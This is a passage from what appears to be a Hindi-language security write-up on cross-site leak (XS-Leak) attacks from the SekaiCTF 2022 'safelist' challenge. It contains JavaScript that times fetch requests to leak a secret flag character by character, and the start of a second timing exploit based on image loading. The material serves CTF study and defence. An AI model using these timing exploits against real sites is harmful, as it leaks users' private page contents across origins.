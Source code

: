 ```html
// start meassuring time to perform 5 requests
let start = performance.now();
await Promise.all([
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" })
]);
let delta = performance.now() - start;
document.title = delta;
controller.abort();

log("test_" + c + "_" + i, delta);

// Save time needed
deltas.push(delta);
}
return deltas;
};

// Check each char
const pwn = async () => {
// Try to leak each character
for(let i = 0; i < alphabet.length; i++) {
//Check the indicated char
let deltas = await leak(alphabet[i]);

// Calculate mean time from requests to example.com
let avg = deltas.reduce((a,v) => a+v, 0) / deltas.length;

// If greater than 250, the HTML code was injected (flag in index 0)
if (avg > 250) {
log("tests_pos_" + alphabet[i], deltas)
}
// Flag in the page
else {
log("tests_neg_" + alphabet[i], deltas)
}
}
};

window.onload = async () => {
pwn();
};
</script>
```
### अपराध 2

यही तकनीक लेकिन [https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/](https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/) से अलग कोड।
```html
<!DOCTYPE html>
<html>
<!--
The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
If images are loading, the request to "/" is slower, otherwise faster.
By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
We can use fetch to measure the request time.
-->
<body>
<button onclick="run()">start</button>
```